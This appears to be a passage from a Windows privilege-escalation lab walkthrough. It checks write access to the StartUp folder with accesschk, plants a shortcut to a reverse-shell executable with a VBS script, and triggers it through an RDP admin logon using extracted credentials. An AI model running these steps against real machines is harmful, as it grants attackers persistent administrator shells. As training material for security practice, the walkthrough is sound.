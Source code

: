 Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:
```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
```
cscript C:\PrivEsc\CreateShortcut.vbs
```

Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:
```
rdesktop -u admin MACHINE_IP
```

A shell running as admin should connect back to your listener.